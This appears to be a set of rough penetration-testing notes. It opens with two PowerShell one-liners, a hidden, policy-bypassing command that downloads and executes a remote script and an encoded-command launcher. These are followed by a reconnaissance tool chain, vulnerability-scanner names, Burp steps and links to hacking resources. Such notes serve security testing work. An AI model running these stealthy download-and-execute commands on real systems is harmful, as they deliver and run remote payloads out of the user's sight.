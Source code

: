 ## Powershell

```powershell
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-ObjectNet.WebClient).DownloadString('[$poweshell-url]'); param

Powershell.exe -NoP -NonI -W Hidden -Exec Bypass -enc $base64-code

```

- https://www.irongeek.com/i.php?page=videos/hack3rcon5/h01-intro-to-powershell-scripting-for-security


## Active discovery

masscan -> sparta -> httpsscreenshot -> eyewitness/wmap -> nexpose/nessus/openvas -> burp proxy pro -> owasp-zap -> report/analy

jboss/joomla,wordpress/tomcat/zencart/co;dfusion/VoIP/beta/ip camera/jenkins/networking device/index/scada/auth page/printer/test site/expired cc

- https://www.irongeek.com/i.php?page=videos/passwordscon2014/target-specific-automated-dictionary-generation-matt-marx
- www.exploit-db.com/webapps
- www.pentestgeek.com/2014/06/13/hacking-jenkins-servers-with-no-password
- www.christophertruncer.com/eyewitness-triage-tool/ ended up really
- crashchrome
- wmap .. chrome-extension

### vuln scan

- Tenable nessus vulnerability scanner
- 
webscarab, w3af,, hp fortfy

### web app scan

- burp
   1. proxy setting
   1. enable burp
   1. app spidering
   1. discover content
   1. run active scanner
   1. exploit


- addons.modzilla.org/ja/firefox/addon/foxyproxy-standard

- raft(code.google.com/p/raft/source/browse/trunk/data/wordlists/?r=64

[Intercept]
[proxy ] > 
[targe]
[add to scope]


[^custom-script]: カスタムスクリプトの説明。